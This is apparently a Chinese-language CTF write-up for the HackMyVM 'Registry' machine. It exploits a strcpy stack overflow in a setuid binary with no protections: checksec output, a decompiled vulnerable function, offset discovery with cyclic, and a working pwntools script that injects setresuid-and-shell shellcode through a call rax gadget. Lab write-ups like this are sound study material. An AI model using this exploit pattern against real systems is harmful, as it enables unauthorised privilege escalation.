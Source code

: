 ```yaml
---
title: 'heackmyvmRegistry'
date: 2024-11-07 13:00:00 +0800
categories: [hack,HackmyVm]
tags: []
---
```

### program

```shell
bamuwe@bamuwe:~$ checksec program
[*] '/program'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

> 保护全关，可以考虑写入shellcode

```c
char *__fastcall vuln(const char *a1)
{
  char dest[128]; // [rsp+10h] [rbp-80h] BYREF

  return strcpy(dest, a1);		//stackoverflow
}
```

> 漏洞函数

```shell
bamuwe@bamuwe:/mnt/c/Users/qianenzhao/Desktop/R$ gdb program
...
pwndbg> set args `cyclic 200`
pwndbg> r
*RIP  0x4011d9 (vuln+47) ◂— ret
____________________________________________________
 ► 0x4011d9 <vuln+47>    ret    <0x6261616b6261616a>
 ...
 bamuwe@bamuwe:~$ cyclic -l 0x6261616b6261616a
136
```

> 确定padding=136

```shell
www-data@registry:/opt/others$ ls -l
ls -l
total 16
-rwsr-xr-x 1 cxdxnt cxdxnt 15976 Jul 24  2023 program
```

思路：

1. 写入`shellcode`，填充到`ret`指令，再调用`call rax`执行`shellcode`

			2. `shellcode`由提升权限`(cxdxnt)`和获取`shell`两部分组成

```python
from pwn import *
context.arch = 'amd64'
shellcode = asm(shellcraft.setresuid())+asm(shellcraft.sh())
padding = 136
payload = shellcode.ljust(padding,b'A')+p32(0x401014)
shell = process(['./program',payload])
shell.interactive()
```



